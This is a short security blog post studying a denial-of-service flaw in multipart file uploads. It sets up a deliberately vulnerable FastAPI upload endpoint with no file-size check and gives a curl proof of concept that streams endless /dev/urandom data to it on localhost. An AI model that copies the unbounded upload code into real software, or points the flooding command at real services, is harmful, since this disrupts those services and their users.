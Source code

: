 ```yaml
---
layout: post
title: Research DoS Vulnerability via multipart Data
date: 2024-10-30
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

I have read a any vulnerability about DoS Vulnerability via multipart Data, so to deep understand of vulnerability i will research in the direction build code have vulnerability and poc. About DoS vulnerability, this is vulnerability will causing system disruption, with upload via multipart/data hacker will upload large file to application. System when process large file will inscrease cpu and mem causing system disruption. 

# Scenario 1: DoS via file upload

I have a code run a api for upload file with python

```
from fastapi import FastAPI, File, UploadFile, HTTPException
import uvicorn
import os

app = FastAPI()

UPLOAD_DIR = "./uploads"
os.makedirs(UPLOAD_DIR, exist_ok=True)

@app.post("/upload/")
async def upload_file(file: UploadFile = File(...)):
    # read and save file
    try:
        file_location = os.path.join(UPLOAD_DIR, file.filename)
        with open(file_location, "wb") as buffer:
            buffer.write(await file.read())
        return {"filename": file.filename}
    except Exception as e:
        raise HTTPException(status_code=500, detail="Error saving file")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=8000)

```

This code allow upload any file and save file to folder "uploads". There aren't any check file size so i can upload file with big size. To perform upload file, i use file with `</dev/urandom`. 

`/dev/urandom` is special file of linux, provide random data unlimited. When read '/dev/urandom' system will generate random bytes. Because this is data unlimited, so curl will continous read data and send data until server is interupted or when server cannot accept any data. 

POC: 

```
curl -X POST http://localhost:8000/upload/ -F 'file=@/dev/urandom'
```

